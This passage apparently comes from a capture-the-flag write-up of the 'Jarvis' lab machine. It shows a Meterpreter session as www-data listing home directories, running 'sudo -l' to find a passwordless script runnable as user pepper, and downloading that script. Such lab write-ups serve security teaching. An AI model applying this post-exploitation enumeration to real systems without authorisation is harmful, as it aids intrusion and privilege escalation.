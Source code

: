 The meterpreter session hung, so I hit CTRL+C and got back to the standard prompt. But the session wasn't closed, so I could resume interaction by running `sessions -i 1`.

```
meterpreter > sysinfo
Computer    : jarvis
OS          : Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```

So we've got a shell as www-data.

```
meterpreter > shell
Process 1323 created.
Channel 0 created.
ls -alh /home
total 12K
drwxr-xr-x  3 root   root   4.0K Mar  2 08:54 .
drwxr-xr-x 23 root   root   4.0K Mar  3 22:52 ..
drwxr-xr-x  4 pepper pepper 4.0K Mar  5 07:12 pepper
ls -alh /home/pepper
total 32K
drwxr-xr-x 4 pepper pepper 4.0K Mar  5 07:12 .
drwxr-xr-x 3 root   root   4.0K Mar  2 08:54 ..
lrwxrwxrwx 1 root   root      9 Mar  4 11:11 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper  220 Mar  2 08:54 .bash_logout
-rw-r--r-- 1 pepper pepper 3.5K Mar  2 08:54 .bashrc
drwxr-xr-x 2 pepper pepper 4.0K Mar  2 10:15 .nano
-rw-r--r-- 1 pepper pepper  675 Mar  2 08:54 .profile
drwxr-xr-x 3 pepper pepper 4.0K Mar  4 11:14 Web
-r--r----- 1 root   pepper   33 Mar  5 07:11 user.txt
```

```
meterpreter > shell
Process 17850 created.
Channel 8 created.
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py

meterpreter > ls                                                                                                                                                             
Listing: /var/www/Admin-Utilities                                                     
=================================                                                                                                                                            
                                                                                      
Mode              Size  Type  Last modified              Name   
----              ----  ----  -------------              ----    
100744/rwxr--r--  4587  fil   2019-03-04 12:48:11 +0000  simpler.py
meterpreter > download simpler.py
[*] Downloading: simpler.py -> simpler.py
[*] Downloaded 4.48 KiB of 4.48 KiB (100.0%): simpler.py -> simpler.py
[*] download   : simpler.py -> simpler.py
```
